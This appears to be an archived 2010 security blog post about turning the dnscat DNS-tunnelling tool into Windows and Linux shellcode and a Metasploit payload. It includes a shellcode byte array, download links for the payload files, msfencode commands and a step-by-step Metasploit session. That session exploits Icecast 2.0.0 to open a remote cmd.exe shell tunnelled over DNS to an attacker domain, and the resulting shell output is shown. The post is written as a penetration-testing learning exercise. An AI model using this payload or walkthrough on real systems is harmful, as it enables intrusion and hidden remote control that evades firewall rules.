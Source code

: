 ```yaml
---
id: 622
title: 'Weaponizing dnscat with shellcode and Metasploit'
date: '2010-03-17T20:50:25-05:00'
author: 'Ron Bowes'
layout: revision
guid: 'http://www.skullsecurity.org/blog/?p=622'
permalink: '/?p=622'
---
```


Hey all,

I've been letting other projects slip these last couple weeks because I was excited about converting dnscat into shellcode (or "weaponizing dnscat", as I enjoy saying). Even though I got into the security field with reverse engineering and writing hacks for games, I have never written more than a couple lines of x86 at a time, nor have I ever written shellcode, so this was an awesome learning experience. Most people start by writing shellcode that spawns a local shell; I decided to start with shellcode that implements a dnscat client in under 1024 bytes (for both Linux and Windows). Like I always say, go big or go home!  
  
If you just want to grab the files, here are some links:

- [Win32 shellcode - assembler](/blogdata/dnscat-shell-win32.asm)
- [Win32 shellcode - binary](/blogdata/dnscat-shell-win32)
- [Win32 shellcode - C array](/blogdata/dnscat-shell-win32.h)
- [Win32 Metasploit module](/blogdata/dnscat-shell-win32.rb)
- [Linux shellcode - assembler](/blogdata/dnscat-shell-linux.asm)
- [Linux shellcode - binary](/blogdata/dnscat-shell-linux)
- [Linux shellcode - C array](/blogdata/dnscat-shell-linux.h)

If you want to get your hands dirty, you can compile the source -- right now, it's only in svn:

```
svn co http://svn.skullsecurity.org:81/ron/security/nbtool
cd nbtool
make
```

That'll compile both the standard dnscat client/server and, if you have nasm installed, the Linux and Windows shellcodes. On Windows, you'll need nasm to assemble it. I installed Cygwin, but you can compile the Windows shellcode on Linux or vice versa if you prefer. The output will be in samples/shellcode-\*/. A .h file containing the C version will be generated, as well:

```
$ head -n3 dnscat-shell-test.h
char shellcode[] =
        "\xe9\xa2\x01\x00\x00\x5d\x81\xec\x00\x04\x00\x00\xe8\x4e\x03\x00"
        "\x00\x31\xdb\x80\xc3\x09\x89\xef\xe8\x2e\x03\x00\x00\x80\xc3\x06"
...
```

And, of course, the raw file is output (without an extension), that can be run through msfencode or embedded into a script:

```
 $ make
[...]
$ wc -c samples/shellcode-win32/dnscat-shell-win32
997 samples/shellcode-win32/dnscat-shell-win32
$ wc -c samples/shellcode-linux/dnscat-shell-linux
988 samples/shellcode-linux/dnscat-shell-linux
```

Unless you want to be sending your cmd.exe (or sh) shell to skullseclabs.org, you'll have to modify the domain as well -- the very last line in the assembly code for both Windows and Linux is this:

```
get_domain:
 call get_domain_top
 db 1, 'a' ; random
 db 12,'skullseclabs' ; 
<p>The two lines with the domain have to be changed. The number preceding the name is, as the comment says, the length of the section ('skullseclabs' is 12 bytes, and 'org' is 3 bytes). This process is automated with the Metasploit payload, as you'll see. </p>
<h2>Encoding with msfencode</h2>
<p>msfencode from the Metasploit project is a beautiful utility. I highly recommend running shellcode through it before using it. The most useful aspect with shellcode is, at least to me, the ability to eliminate characters. So, if I need to get rid of \x00 (null) characters from my strings, it's as easy as:</p>
$ msfencode -b "\x00"  dnscat-shell-win32-encoded
[*] x86/shikata_ga_nai succeeded with size 1024 (iteration=1)

<p>If you're planning on using this in, for example, Metasploit, you don't have to worry about the msfencode step -- it'll do that for you. </p>
<h2>Metasploit payload</h2>
<p>Speaking of metasploit, yes! I wrote a metasploit payload for dnscat. </p>
<p>First, there are a number of caveats:</p>
```

- This is highly experimental
- This doesn't have a proper "exitfunc" call -- it just returns and probably crashes the system
- This is set up as a single stage, and is 1000 or so bytes -- as a result, it won't work against most vulnerabilities

That being said, it also works great when it's usable. The target I use for testing is [Icecast 2 version 2.0.0](http://downloads.xiph.org/releases/icecast/icecast2_win32_2.0.0_setup.exe) (WARNING: don't install vulnerable software on anything important!), which is included on the SANS 560 and 504 CDs. It's free, GPL, reliable, and has 2000 bytes in which to stuff the payload.

So, the steps you need to take are,

1. Install [Icecast2](http://downloads.xiph.org/releases/icecast/icecast2_win32_2.0.0_setup.exe) on your victim machine (Win32)
2. Download the experimental dnscat [Metasploit module](/blogdata/dnscat-shell-win32.rb) and put it in your Metasploit directory (modules/payloads/singles/windows/)
3. Fire up a dnscat server on your authoritative DNS server (<tt>dnscat --listen</tt>) -- see the [dnscat wiki](/wiki/index.php/Dnscat) for more information
4. Run Metasploit (<tt>msfconsole</tt>) and enter the following commands:
```
msf > use exploit/windows/http/icecast_header         
msf exploit(icecast_header) > set PAYLOAD windows/dnscat-shell-win32
PAYLOAD => windows/dnscat-shell-win32
msf exploit(icecast_header) > set RHOST 192.168.1.221
RHOST => 192.168.1.221
msf exploit(icecast_header) > set DOMAIN skullseclabs.org
DOMAIN => skullseclabs.org
msf exploit(icecast_header) > exploit
[*] Exploit completed, but no session was created.
```

Meanwhile, on your dnscat server, if all went well, you should see:

```
$ sudo ./dnscat --listen
Waiting for DNS requests for domain '*' on 0.0.0.0:53...
Switching stream -> datagram
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\Program Files\Icecast2 Win32>
```

You can type commands in, and they'll run just like a normal shell. Be warned, though, that it is somewhat slow, due to the nature of going through DNS.

## Why bother?

The big advantage to this over traditional shellcode is that no port, whether inbound or outbound, is required! As long as the server has a DNS server set that will perform recursive lookups, it'll work great!

## Feedback

As I said, this is the first time I've ever written shellcode or x86. I'm sure there are lots of places where it could be significantly improved, and I'd love to hear feedback from the folks who really know what they're doing and can help me improve my code.

Thanks!